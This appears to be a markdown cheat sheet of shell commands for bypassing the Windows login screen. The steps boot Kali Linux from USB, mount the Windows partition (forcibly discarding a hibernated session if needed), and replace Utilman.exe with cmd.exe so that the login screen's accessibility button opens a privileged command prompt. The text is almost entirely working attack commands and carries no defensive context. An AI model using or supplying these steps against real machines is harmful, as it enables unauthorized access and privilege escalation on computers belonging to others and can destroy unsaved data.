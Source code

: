 ### boot kali from usb stick
```
mkdir /mnt/windows
```

### mount windows partition
```
mount /dev/<windowsPartition> /mnt/windows
```

### if error occurs while mounting (Windows is hibernated, refuse to mount)
```
umount /dev/<windowsPartition>
mount -t ntfs-3g -o remove_hiberfile /dev/<windowsPartition> /mnt/windows
cd /mnt/windows/Windows/System32
```

### create backup
```
cp Utilman.exe backup.exe
```

### replace utilman with cmd
```
cp cmd.exe Utilman.exe
```

### umount
```
umount -R /mnt
```

### shut down kali and boot windows system ->  click "Utilman"
```
```

